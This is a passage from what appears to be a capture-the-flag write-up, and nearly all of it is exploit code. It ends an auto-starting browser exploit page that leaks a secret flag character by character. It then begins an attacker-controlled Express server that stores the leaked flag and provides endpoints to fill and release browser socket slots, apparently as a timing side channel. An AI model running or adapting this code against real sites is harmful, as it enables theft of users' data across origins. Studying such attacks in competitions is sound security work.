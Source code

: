 ```html
        } else {
            L('❌ Failed to leak character, may need to retry');
        }
    }

    // Check for autostart parameter
    window.addEventListener('DOMContentLoaded', async () => {
        const params = new URLSearchParams(window.location.search);
        if (params.has('autostart')) {
            L('🤖 Autostart detected, beginning exploit in 2 seconds...');
            await Z(2000);
            await autoRun();
        }
    });
</script>
```
{{< /details >}}

    
<a id="server-js"></a>
{{< details summary="server.js" >}}
```jsx
// server.js
// npm i express express-ws cors body-parser
const express = require('express');
const cors = require('cors');
const expressWs = require('express-ws');
const bodyParser = require('body-parser');

const app = express();
expressWs(app);
app.use(cors());
app.use(bodyParser.json());

const clients = new Set();
const tell = m => { const s = JSON.stringify(m); for (const ws of clients) try { ws.send(s); } catch { } };

// Store leaked flag
let leakedFlag = '';

// Long hold (fills a socket)
app.get('/hold', (req, res) => {
    const ms = Math.max(1000, Math.min(600000, +req.query.ms || 60000));
    res.status(200).set({
        'Content-Type': 'text/plain',
        'Cache-Control': 'no-store',
        'Connection': 'keep-alive',
        'Transfer-Encoding': 'chunked',
        'Access-Control-Allow-Origin': '*',
    });
    res.flushHeaders?.();
    res.write('HOLD\n');
    setTimeout(() => { try { res.end('TIMEOUT\n'); } catch { } }, ms).unref();
    req.on('close', () => { try { res.end(); } catch { } });
});

// Fused hold: actually drops THIS TCP socket at fuse=ms → frees exactly one slot
app.get('/hold-fuse', (req, res) => {
    const ms = Math.max(50, Math.min(60000, +req.query.fuse || 5000));
    res.status(200).set({
        'Content-Type': 'text/plain',
        'Cache-Control': 'no-store',
        'Connection': 'keep-alive',
```